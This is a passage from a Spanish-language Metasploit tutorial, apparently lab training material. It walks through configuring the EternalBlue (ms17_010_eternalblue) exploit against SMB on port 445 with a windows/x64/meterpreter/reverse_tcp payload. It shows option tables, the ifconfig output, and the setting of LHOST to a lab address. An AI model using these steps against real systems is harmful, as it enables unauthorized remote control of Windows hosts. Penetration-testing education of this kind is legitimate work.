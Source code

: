 ```bash
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------  
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

## Uso de Payloads (Cargas Útiles)

Es momento de configurar los parámetros tanto del módulo de explotación como del módulo de payload. Para la parte de explotación, debemos configurar los siguientes parámetros:

**Parámetros del Exploit:**

| **Parámetro** | **Descripción**                                                                   |
| ------------- | --------------------------------------------------------------------------------- |
| **RHOSTS**    | La dirección IP del host remoto, es decir, la máquina objetivo.                   |
| **RPORT**     | No requiere cambio, solo confirmar que estamos en el puerto 445, donde corre SMB. |

**Parámetros del Payload:**

| **Parámetro** | **Descripción**                                                  |
| ------------- | ---------------------------------------------------------------- |
| **LHOST**     | La dirección IP del host, es decir, la máquina atacante.         |
| **LPORT**     | No requiere cambio, solo confirmar que el puerto no esté en uso. |

Si queremos verificar rápidamente nuestra dirección IP (LHOST), siempre podemos usar el comando `ifconfig` directamente desde el menú de **msfconsole**.

```bash
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig
```

```bash
[*] exec: ifconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500

<SNIP>

inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15

<SNIP>
```

Ahora establecemos el LHOST y RHOSTS:

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15
LHOST => 10.10.14.15
```
